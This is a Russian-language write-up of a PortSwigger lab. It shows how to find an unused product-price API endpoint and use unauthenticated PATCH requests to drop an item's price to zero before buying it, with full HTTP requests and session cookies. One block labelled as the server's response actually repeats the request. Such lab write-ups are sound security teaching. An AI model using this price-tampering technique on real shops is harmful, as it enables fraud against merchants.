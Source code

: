 ```yaml
---
title: "Finding and exploiting an unused API endpoint"
date: 2025-08-28
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/api-testing/api-testing-identifying-and-interacting-with-api-endpoints/api-testing/lab-exploiting-unused-api-endpoint"
classes: wide
---
```


Для прохождения лабы нужно найти эндпоинт с помощью **атаки на API**, который позволит купить `Lightweight l33t Leather Jacket`. Для входа в аккаунт можно использовать креды `wiener`:`peter`.

```
https://0a6600c70445360e80349468005300ba.web-security-academy.net
```

## Solution

Зайду на страницу нужного товара: `https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1`

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/1.png){: height="200" .align-center}


Я получил `productId` нужного товара: `1`. Попробую добавить другой товар в корзину, чтобы увидеть, через какой запрос он происходит. Предварительно залогинюсь в ЛК.

```http
POST /cart HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: https://0a6600c70445360e80349468005300ba.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=2&quantity=1&redir=CART
```

Вот этот запрос похож на правильный. Подставлю нужный `productId`.

```http
HTTP/2 302 Found
Location: /cart
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Товар был добавлен в корзину. Но у меня нема денег. Надо-что то с этим решать. ~~Заработать~~ Нашел вот такой запрос:

```http
GET /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

Попробую применить другие методы. Например `POST`, чтобы попробовать изменить цену на товар:

```http
POST /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json; charset=utf-8
Content-Length: 27

{
	"price": 1337.00
}
```

На что я получил интересный ответ:

```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Попробую метод `PATCH`:

```http
PATCH /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json; charset=utf-8
Content-Length: 23

{
	"price":   1
}
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.01"}
```

Проверю на сайте:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/2.png){: height="200" .align-center}

Денег все еще не хватает. Попрошу скидку:

```http
PATCH /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Content-Type: application/json; charset=utf-8
Content-Length: 23

{
	"price":   0
}
```

Их ответ:

```http
PATCH /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Content-Type: application/json; charset=utf-8
Content-Length: 23

{
	"price":   0
}

```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/3.png){: height="200" .align-center}

Вот теперь мне по карману. Возьму 2)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/4.png){: height="200" .align-center}
